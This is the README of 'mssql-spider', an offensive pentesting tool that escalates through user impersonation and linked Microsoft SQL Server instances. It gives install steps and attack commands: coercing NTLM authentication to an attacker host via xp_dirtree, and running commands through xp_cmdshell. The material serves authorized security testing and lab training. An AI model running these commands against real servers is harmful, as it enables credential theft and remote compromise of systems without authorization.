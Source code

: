 # mssql-spider

![Screenshot](./assets/demo.png)

An improved [impacket-mssqclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) that exploits user impersonation and follows linked instances to discover and compromise as many Microsoft SQL Servers as it can reach.

Big thanks to the developers of fortra/impacket#1397 and [SQLRecon](https://github.com/skahwah/SQLRecon) on which this project is based.

> **Warning:** Altough this project was successfully tested in the lab and solves the OSEP Challenge Lab 2 automatically, it is still kinda work in progress.

# Setup

a) With pipx.

~~~ bash
pipx install git+https://github.com/dadevel/mssql-spider.git@main
~~~

b) With pip.

~~~ bash
pip install --user git+https://github.com/dadevel/mssql-spider.git@main
~~~

# Usage

Impersonate users and follow linked instances recursively.

~~~ bash
mssql-spider -u jdoe -p passw0rd -w db01.corp.local
~~~

Coerce NTLM authentication from all reachable hosts trough `xp_dirtree`.
This does not require privileged access.

~~~ bash
mssql-spider -u jdoe -H :b9f917853e3dbf6e6831ecce60725930 -w --xpdir \\attacker.corp.local\test ./mssql-servers.txt
~~~

Execute a command on all hosts where you can obtain sysadmin privileges trough `xp_cmdshell`.

~~~ bash
mssql-spider -k -n -w -x 'whoami /groups' db01.corp.local:50123 db02.corp.com:1433
~~~

Run `mssql-spider --help` for more details.
